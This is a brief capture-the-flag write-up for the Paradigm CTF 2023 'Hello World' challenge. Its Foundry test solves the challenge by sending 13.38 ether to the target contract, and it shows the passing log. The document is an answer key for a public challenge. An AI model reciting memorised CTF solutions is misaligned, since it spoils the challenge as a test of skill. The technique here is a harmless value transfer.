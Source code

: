 # Paradigm CTF 2023 - Hello World
- Scope
    - hello-world/Challenge.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings
### Requirements
1. TARGET.balance > STARTING_BALANCE + 13.37 ether;
### Impact/Proof of Concept
```
contract HelloWorldTest is Test {
    Challenge challenge;
    address player = makeAddr("player");
    function setUp() public {
        challenge = new Challenge();
    }

    modifier solved() {
        _;
        assert(challenge.isSolved());   
    }

    function test_exploit() public solved {
        address TARGET = challenge.TARGET();
        console.log("addr: ", TARGET);
        vm.startPrank(player);
        vm.deal(player, 13.38 ether);
        
        // A simple call to transfer more than 13.37 ether over to the TARGET contract
        (bool success,) = TARGET.call{value: 13.38 ether}("");
        require(success);
        console.log("balance: ", TARGET.balance);
    }

}
```
Results
```diff
Ran 1 test for test/hello-world.t.sol:HelloWorldTest
[PASS] test_exploit() (gas: 50294)
Logs:
  addr:  0x00000000219ab540356cBB839Cbe05303d7705Fa
  balance:  13380000000000000000
```
